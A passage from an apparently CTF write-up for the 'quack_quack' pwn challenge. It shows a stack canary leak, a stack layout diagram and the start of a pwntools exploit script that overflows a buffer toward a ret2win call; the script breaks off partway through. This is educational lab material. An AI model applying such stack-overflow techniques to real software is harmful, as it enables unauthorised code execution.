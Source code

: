 <figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

Now, we successfully leak the canary. But wait, is that the canary start with the **NULL byte** character (`\x00`)? Yap, that's true, so we need to adjust the output to be stored as canary. For the next input we need to calculate before canary value, so it will not errors or stack smashing detected. Our next input is started from `$rbp-0x60` until **0x6a bytes** or **106 bytes** in decimal. But, we don't need input until the max size, we only need input until `$rbp-0x10` or **88 bytes** more.

```
============= STACK LAYOUT =============

[       RET       ] // lives in $rbp+0x8
[    Saved RBP    ] 
[   Stack Canary  ] // lives in $rbp-0x8
[  .............  ] // $rbp-0x10 - Last of second input - 88 bytes
[  .............  ] // $rbp-0x18
[  .............  ] // $rbp-0x20
[  .............  ] // $rbp-0x28
[  .............  ] // $rbp-0x30
[  .............  ] // $rbp-0x38
[  .............  ] // $rbp-0x40
[  .............  ] // $rbp-0x48
[  .............  ] // $rbp-0x50
[  .............  ] // $rbp-0x58
[  .............  ] // $rbp-0x60 - Second input
[  .............  ] // $rbp-0x68
[  .............  ] // $rbp-0x70
[  .............  ] // $rbp-0x78
[      Buffer     ] // Start input
```

After we know the padding of 2nd input, then we can do **ret2win** attack to call `duck_attack` function and read the flag. So, here's my final exploit script.

{% code title="exploit.py" lineNumbers="true" %}
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF('./quack_quack', checksec=0)
context.binary = exe
context.log_level = "DEBUG"

# Start the process.
LOCAL = False
if LOCAL:
    io = exe.process()
else:
    io = remote('94.237.54.232', 39055)

# Prepare the payload for the first input.
payload = b"" # -----------------------< Start payload.
payload += b"A" * 32 # ----------------< Fill the 32 bytes buffer.
payload += b"B" * (89 - 32) # ---------< Overflow until 89 bytes.
payload += b"Quack Quack " # ----------< Pass the strstr condition (12 more bytes).

```